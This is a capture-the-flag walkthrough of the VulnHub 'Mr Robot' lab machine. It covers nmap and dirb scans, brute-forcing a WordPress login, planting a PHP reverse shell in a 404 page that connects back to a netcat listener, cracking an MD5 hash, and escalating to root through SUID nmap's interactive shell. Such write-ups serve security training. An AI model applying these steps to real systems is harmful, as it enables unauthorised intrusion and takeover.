 Mr Robot

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] Wordpress bruteforce
[+] MD5 - Password Cracking @ Crackstation
[+] Privilege Esclation with nmap --interactive (SUID)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-05 04:24 EST
Nmap scan report for 192.168.56.104
Host is up (0.00081s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:F7:40:77 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.81 ms 192.168.56.104

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/mr.robot# dirb http://192.168.56.104

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov  5 04:37:33 2019
URL_BASE: http://192.168.56.104/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.104/ ----
==> DIRECTORY: http://192.168.56.104/0/                                        
==> DIRECTORY: http://192.168.56.104/admin/                                    
+ http://192.168.56.104/atom (CODE:301|SIZE:0)                                 
==> DIRECTORY: http://192.168.56.104/audio/                                    
==> DIRECTORY: http://192.168.56.104/blog/                                     
==> DIRECTORY: http://192.168.56.104/css/                                      
+ http://192.168.56.104/dashboard (CODE:302|SIZE:0)                            
+ http://192.168.56.104/favicon.ico (CODE:200|SIZE:0)                          
==> DIRECTORY: http://192.168.56.104/feed/                                     
==> DIRECTORY: http://192.168.56.104/image/                                    
==> DIRECTORY: http://192.168.56.104/Image/                                    
==> DIRECTORY: http://192.168.56.104/images/                                   
+ http://192.168.56.104/index.html (CODE:200|SIZE:1077)                        
+ http://192.168.56.104/index.php (CODE:301|SIZE:0)                            
+ http://192.168.56.104/intro (CODE:200|SIZE:516314)                           
==> DIRECTORY: http://192.168.56.104/js/                                       
+ http://192.168.56.104/license (CODE:200|SIZE:309)                            
+ http://192.168.56.104/login (CODE:302|SIZE:0)                                
+ http://192.168.56.104/page1 (CODE:301|SIZE:0)                                
^[t                                                                             + http://192.168.56.104/phpmyadmin (CODE:403|SIZE:94)                          
+ http://192.168.56.104/rdf (CODE:301|SIZE:0)                                  
+ http://192.168.56.104/readme (CODE:200|SIZE:64)                              
+ http://192.168.56.104/robots (CODE:200|SIZE:41)                              
+ http://192.168.56.104/robots.txt (CODE:200|SIZE:41) 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting content of robots.txt we found a dictionary file

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://www.example.com/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Going to http://www.example.com/wp-login we get the information that the user is elliot.



After brute forcing the password for elliot using dictionary “ fsocity.dic” we get the following credentials:

username : elliot
password : ER28-0652

Logging into Wordpress


We try to modify a standart 404 error page and add a reverse shell instead of the code for page not found .

After adding the code for the php- reverse-shell we get a reverse shell on the listenting port on kali linux .

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/mr.robot# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.104] 40889
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 11:59:34 up 35 min,  0 users,  load average: 1.38, 1.57, 1.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ id

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Getting password for user robot

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
daemon@linux:/home/robot$ cat pass	
cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Using Crack Station to crack the password


Getting user robot

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key	
cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Find SUID

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Privilege escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# whoami
whoami
root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

